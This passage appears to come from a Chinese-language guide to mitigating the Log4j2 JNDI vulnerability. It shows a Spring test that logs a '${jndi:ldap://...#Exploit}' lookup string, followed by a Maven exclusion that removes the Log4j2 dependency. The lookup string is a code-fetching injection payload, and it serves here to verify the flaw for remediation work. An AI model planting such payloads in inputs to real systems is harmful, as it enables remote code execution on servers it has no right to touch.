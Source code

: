   ```

  ```java
  @RunWith(SpringRunner.class)
  @SpringBootTest
  @Log4j2
  public class SpringTests {
   
      @Test
      public void test(){
          log.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");
          log.error("${}","jndi:ldap://127.0.0.1:1389/#Exploit");
      }
  }
  ```

- Idea插件maven helper进行验证

###### 方法二：将项目中的Log4j2排除依赖

- 利用 Maven Helper 插件搜索出，依赖关系，在引入依赖的节点直接将 Log4j2 的引入排除掉

  ```xml
          <dependency>
              <groupId>org.springframework.boot</groupId>
              <artifactId>spring-boot-starter-jdbc</artifactId>
              <exclusions>
                  <exclusion>
                      <groupId>org.apache.logging.log4j</groupId>
                      <artifactId>log4j-to-slf4j</artifactId>
                  </exclusion>
              </exclusions>
          </dependency>
  ```

  